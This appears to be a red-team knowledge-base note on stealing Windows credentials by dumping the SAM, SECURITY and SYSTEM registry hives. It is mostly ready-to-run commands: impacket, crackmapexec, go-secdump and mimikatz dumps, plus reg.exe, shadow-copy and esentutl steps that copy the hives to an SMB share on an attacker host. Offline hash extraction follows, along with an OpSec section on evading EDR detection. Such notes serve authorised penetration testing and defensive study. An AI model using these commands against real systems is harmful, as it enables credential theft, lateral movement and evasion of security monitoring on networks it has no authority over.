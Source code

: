 ```yaml
---
title: Registry Dump
---
```


[[notes/mitre-attack/credential-access|Access Credentials]] from the Windows [[notes/windows/registry]] as [[notes/windows/credential-access-admin|local admin]].
The *Security Account Manager* stores NT hashes of local users in the `SAM` registry hive.
The *Local Security Authority* stores Domain Cached Credentials (DDC) of the last ten user logons as well as plain text passwords or NT hashes of local and domain service accounts in the `SECURITY` hive.

DCC hashes are hard to crack, but you can try with a small wordlist.
See [[notes/cryptography/hash-cracking]] for details.

# Dump from Linux

Connect to the *Remote Registry* service over SMB and save the hives to a SMB share.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-reg -k -no-pass srv01.corp.local save -keyName 'HKLM\SAM' -o '\\attacker.corp.local\share'
    impacket-reg -k -no-pass srv01.corp.local save -keyName 'HKLM\SYSTEM' -o '\\attacker.corp.local\share'
    impacket-reg -k -no-pass srv01.corp.local save -keyName 'HKLM\SECURITY' -o '\\attacker.corp.local\share'
    ~~~

Connect to the *Remote Registry* service, read the boot key from the `SYSTEM` hive, save the `SAM` and `SECURITY` hives to disk and download them via SMB.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-secretsdump administrator:'passw0rd'@srv01.corp.local
    ~~~

=== "[[notes/tools/crackmapexec]]"
    ~~~ bash
    crackmapexec smb srv01.corp.local --local-auth -u administrator -p 'passw0rd' --sam --lsa
    ~~~

Connect to *Remote Registry* and dump the registry hives without touching disk by temporally relaxing ACLs.

=== "[[notes/tools/impacket]]"
    Requires [PR 1698](https://github.com/fortra/impacket/pull/1698).

    ~~~ bash
    impacket-secretsdump -history -inline administrator:'passw0rd'@srv01.corp.local
    ~~~

=== "[[notes/tools/go-secdump]]"
    ~~~ bash
    go-secdump -host srv01.corp.local -local -user administrator -pass 'passw0rd'
    ~~~

> **OpSec:**
>
> Some EDRs detect Impacket and CME because they access the `ADMIN$` share and write the dumps to `C:\Windows\Temp\*.tmp` ([source](http://web.archive.org/web/20230719134515/https://www.login-securite.com/2023/07/13/dpapi-dont-put-administration-passwords-in/)).
>
> A few EDRs detect remote access to `SAM` even without this indicators.
> In this case you can try to run any of the Windows builtins remotely instead of relying on the *Remote Registry*.

Dump the `SAM` hive trough local registry access to a SMB share.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-atexec -silentcommand administrator:'passw0rd'@srv01.corp.local 'reg.exe save hklm\sam \\attacker.corp.local\share\%COMPUTERNAME%-sam.save'
    ~~~

# Dump on Windows

Save registry hives directly to a SMB share.

=== "reg.exe"
    ~~~ bat
    reg.exe save hklm\sam \\attacker.corp.local\share\%COMPUTERNAME%-sam.save
    reg.exe save hklm\security \\attacker.corp.local\share\%COMPUTERNAME%-security.save
    reg.exe save hklm\system \\attacker.corp.local\share\%COMPUTERNAME%-system.save
    ~~~

Copy registry hives from a [[notes/windows/shadow-copy]] to a SMB share.

=== "cmd.exe"
    ~~~ bat
    vssadmin.exe list shadows
    copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam \\attacker.corp.local\share\%COMPUTERNAME%-sam.save
    copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\security \\attacker.corp.local\share\%COMPUTERNAME%-security.save
    copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system \\attacker.corp.local\share\%COMPUTERNAME%-system.save
    ~~~

=== "esentutl.exe"
    ~~~ bat
    esentutl.exe /y /vss C:\Windows\System32\config\sam /d \\attacker.corp.local\share\%COMPUTERNAME%-sam.save
    esentutl.exe /y /vss C:\Windows\System32\config\security /d \\attacker.corp.local\share\%COMPUTERNAME%-security.save
    esentutl.exe /y /vss C:\Windows\System32\config\system /d \\attacker.corp.local\share\%COMPUTERNAME%-system.save
    ~~~

Parse hives in memory without touching disk.

=== "[[notes/tools/mimikatz]]"
    ~~~
    mimikatz.exe token::elevate lsadump::sam lsadump::secrets exit
    ~~~

Untested tools:

- [LSASecretDumper](https://github.com/gtworek/PSBits/tree/master/LSASecretDumper), uses `LsaQuerySecret()`, extracts previous credentials of a service ([source](https://twitter.com/0gtweet/status/1725054344108675172))
- [RegSave](https://github.com/EncodeGroup/RegSave)

# Extract on Linux

=== "[[notes/tools/pypykatz]]"
    ~~~ bash
    pypykatz registry --json ./system.save --sam ./sam.save --security ./security.save
    ~~~

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-secretsdump -sam ./sam.save -security ./security.save -system ./system.save LOCAL
    ~~~
